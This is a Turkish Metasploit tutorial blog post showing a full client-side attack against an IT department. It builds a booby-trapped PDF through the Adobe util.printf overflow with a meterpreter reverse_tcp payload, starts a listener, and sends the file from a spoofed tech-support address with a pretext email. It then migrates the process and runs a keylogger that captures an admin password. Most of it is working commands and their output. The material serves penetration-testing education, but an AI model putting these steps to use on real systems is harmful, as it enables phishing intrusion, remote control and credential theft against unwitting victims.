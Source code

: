 ```yaml
---
draft: false

title:  'MSF Binary İstemci Exploitleri'
date: '2017-05-20T13:13:00+03:00'
author: İbrahim Korucuoğlu ([@siberoloji](https://github.com/siberoloji))
 
 
url:  /tr/msf-binary-istemci-exploitleri/
 
featured_image: /images/metasploit.jpg
categories:
    - 'Metasploit Framework'
tags:
    - cybersecurity
    - 'metasploit framework'
---
```



## İstemci Tarafı Exploitler



Önceki yazılarımızda Windows ve Linux için kullanılan istemci tarafı exploitleri görmüştük. Bu yazımızda başka bir senaryoya bakmak istiyorum.



Başarılı bir bilgi toplama safhasından sonra bir IT firması ile ilgili şu sonuca ulaştığımızı farz edelim. Firma;



1) Kullandıkları sistemler en yeni teknolojidir.



2) IT departmanının eposta adresi: itdept@victim.com



Şimdi bu durumda, IT departmanında bir bilgisayara ulaşmak ve keylogger adı verilen (tuş kaydedici) çalıştırmak istiyoruz. Bu sayede klavyeden bastıkları tuşları kayıt ederek yararlı bilgiler elde etmek mümkün olacaktır.



`msfconsole` komutu ile Metasploit Framework’ü çalıştıralım. IT departmanının ilgisini çekecek ve açıp okumak isteyeceği bir PDF dokümanı hazırlayalım. Dokümanın güvenlikle ilgili ve mantıklı bir başlığının olması gerektiğini unutmayın. Ayrıca Antivirüs yazılımları tarafından zararlı olarak algılanmaması gerekmektedir.



Böyle bir PDF dokümanı hazırlamak için **Adobe Reader ‘util.printf()’ JavaScript Function Stack Buffer Overflow Zafiyetini** kullanacağız. Bunun için `exploit/windows/fileformat/adobe_utilprintf` modülünü yükleyelim.


```bash
msf > use exploit/windows/fileformat/adobe_utilprintf
msf exploit**(**adobe_utilprintf**)** > set FILENAME BestComputers-UpgradeInstructions.pdf
FILENAME **=>** BestComputers-UpgradeInstructions.pdf
msf exploit**(**adobe_utilprintf**)** > set PAYLOAD windows/meterpreter/reverse_tcp
PAYLOAD **=>** windows/meterpreter/reverse_tcp
msf exploit**(**adobe_utilprintf**)** > set LHOST 192.168.8.128
LHOST **=>** 192.168.8.128
msf exploit**(**adobe_utilprintf**)** > set LPORT 4455
LPORT **=>** 4455
msf exploit**(**adobe_utilprintf**)** > show options

Module options **(**exploit/windows/fileformat/adobe_utilprintf**)**:

   Name      Current Setting                        Required  Description
   ----      ---------------                        --------  -----------
   FILENAME  BestComputers-UpgradeInstructions.pdf  yes       The file name.


Payload options **(**windows/meterpreter/reverse_tcp**)**:

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  process          yes       Exit technique **(**Accepted: '', seh, thread, process, none**)**
   LHOST     192.168.8.128    yes       The listen address
   LPORT     4455             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Adobe Reader v8.1.2 **(**Windows XP SP3 English**)**
```



Çıktıdan da görüleceği gibi `FILENAME` değişkenini yani dosya adını istediğiniz gibi ayarlayabilirsiniz. Payload kısmında ise `LHOST` ve `LPORT` değişkenlerini dinleme yapılacak bilgisayarın bilgileri olarak ayarlamamız gerekmektedir. Ardında `exploit` komutu ile modülü çalıştıralım.


```bash
msf exploit**(**adobe_utilprintf**)** > exploit

> Creating 'BestComputers-UpgradeInstructions.pdf' file...
> BestComputers-UpgradeInstructions.pdf stored at /root/.msf4/local/BestComputers-UpgradeInstructions.pdf
msf exploit**(**adobe_utilprintf**)** >
```



Görüldüğü gibi PDF dosyası, `/root/.msf4/local/` içerisine oluşturulmuştur. Bu dosyayı kolay ulaşım için `/tmp` klasörü içine kopyalayalım. Şimdi dosyamızı ilgili eposta adresine göndermeden önce bilgisayarımızda dinleyici modülü çalıştırmamız gerekiyor. Bunun için `exploit/multi/handler` modülünü kullanacağız. `LHOST` ve `LPORT` değerlerini PDF dosyası oluştururken verdiğimiz değerlerle aynı olmasına dikkat ediyoruz.


```bash
msf > use exploit/multi/handler
msf exploit**(**handler**)** > set PAYLOAD windows/meterpreter/reverse_tcp
PAYLOAD **=>** windows/meterpreter/reverse_tcp
msf exploit**(**handler**)** > set LPORT 4455
LPORT **=>** 4455
msf exploit**(**handler**)** > set LHOST 192.168.8.128
LHOST **=>** 192.168.8.128
msf exploit**(**handler**)** > exploit

> Handler binding to LHOST 0.0.0.0
> Started reverse handler
> Starting the payload handler...
```



Dinleyici modülü aktif hale getirdikten sonra bir şekilde PDF dosyasını `itdept@victim.com` adresine göndermemiz gerekiyor. Bunu aşağıdaki örnek komutla yapabilirsiniz. Başka eposta gönderme yöntemleri de kullanabilirsiniz. Komut örnek olarak verilmiştir.


```bash
root@kali:~# sendEmail -t itdept@victim.com -f techsupport@bestcomputers.com -s 192.168.8.131 -u Important Upgrade Instructions -a /tmp/BestComputers-UpgradeInstructions.pdf
Reading message body from STDIN because the '-m' option was not used.
If you are manually typing **in **a message:
  - First line must be received within 60 seconds.
  - End manual input with a CTRL-D on its own line.

IT Dept,

We are sending this important file to all our customers. It contains very important instructions **for **upgrading and securing your software. Please read and let us know **if **you have any problems.

Sincerely,

Best Computers Tech Support
Aug 24 17:32:51 kali sendEmail[13144]: Message input complete.
Aug 24 17:32:51 kali sendEmail[13144]: Email was sent successfully!
```



Bu örnek komutta kullanılan parametreleri kısaca açıklayalım.



`-t`: TO yani alıcı adresi ifade eder. `-f`: FROM yani gönderici adresi ifade eder. `-s`: SMTP Server IP adresini ifade eder. `-u`: TTITLE yani postanın konusunu ifade eder. `-a`: ATTACHMENT yani ekli dosyayı ifade eder.



Komutu yazıp ENTER tuşuna bastığınızda, epostanın Metin kısmını yazmaya başlayabilirsiniz. Yazım tamamlandıktan sonra CTRL+D tuşları ile işlemi tamamlayabilirsiniz. Böylece posta alıcı adrese gönderilecektir.



Alıcı, bu postayı alıp Antivirüs programı ile kontrol ettiğinde zararsız olarak sonuç alacaktır ancak dosyayı açmak için tıkladığında karşısına boş bir ekran gelse bile aslında dinleyici bilgisayarla iletişim kurulmuş olur.


```bash
> Handler binding to LHOST 0.0.0.0
> Started reverse handler
> Starting the payload handler...
> Sending stage **(**718336 bytes**)**
session[*******]** Meterpreter session 1 opened **(**192.168.8.128:4455 -> 192.168.8.130:49322**)**

meterpreter >
```



Gördüğünüz gibi, PDF dosyası açıldığında Meterpreter shell açılmış durumdadır. Artık karşı tarafın bilgisayarında çeşitli komutları çalıştırmak mümkündür. Son olarak `post/windows/capture/keylog_recorder` modülünü çalıştırarak tuş hareketlerini kaydetmek mümkün hale gelmiştir.


```bash
meterpreter > ps

Process list
**============**

    PID   Name            Path                                 
    ---   ----            ----                                 
    852   taskeng.exe     C:\Windows\system32\taskeng.exe      
    1308  Dwm.exe         C:\Windows\system32\Dwm.exe          
    1520  explorer.exe    C:\Windows\explorer.exe              
    2184  VMwareTray.exe  C:\Program Files\VMware\VMware Tools\VMwareTray.exe
    2196  VMwareUser.exe  C:\Program FilesVMware\VMware Tools\VMwareUser.exe
    3176  iexplore.exe    C:\Program Files\Internet Explorer\iexplore.exe
    3452  AcroRd32.exe    C:\Program Files\AdobeReader 8.0\ReaderAcroRd32.exe

meterpreter > run post/windows/manage/migrate 

> Running module against V-MAC-XP
> Current server process: svchost.exe **(**1076**)**
> Migrating to explorer.exe...
> Migrating into process ID 816
> New server process: Explorer.EXE **(**816**)**

meterpreter > sysinfo
Computer: OFFSEC-PC
OS      : Windows Vista **(**Build 6000, **)**.

meterpreter > use priv
Loading extension priv...success.

meterpreter > run post/windows/capture/keylog_recorder 

> Executing module against V-MAC-XP
> Starting the keystroke sniffer...
> Keystrokes being saved **in **to /root/.msf4/loot/20110323091836_default_192.168.1.195_host.windows.key_832155.txt
> Recording keystrokes...
```



Kaydedilen tuşları, `20110323091836_default_192.168.1.195_host.windows.key_832155.txt` dosyasının içeriğinden kontrol edebilirsiniz.


```bash
root@kali:~# cat /root/.msf4/loot/20110323091836_default_192.168.1.195_host.windows.key_832155.txt
Keystroke log started at Wed Mar 23 09:18:36 -0600 2011
Support,   I tried to open ti his file 2-3 times with no success.  I even had my admin and CFO tru   y it, but no one can get it to p open.  I turned on the rmote access server so you can log **in **to fix our p         this problem.  Our user name is admin and password **for **that session is 123456.   Call or eme ail when you are **done**.   Thanks IT Dept
```



Görüldüğü gibi IT çalışanı, tuş hareketlerinde kullanıcı adının `admin` ve parolasının `123456` olduğunu habersizce ortaya çıkarmıştır.
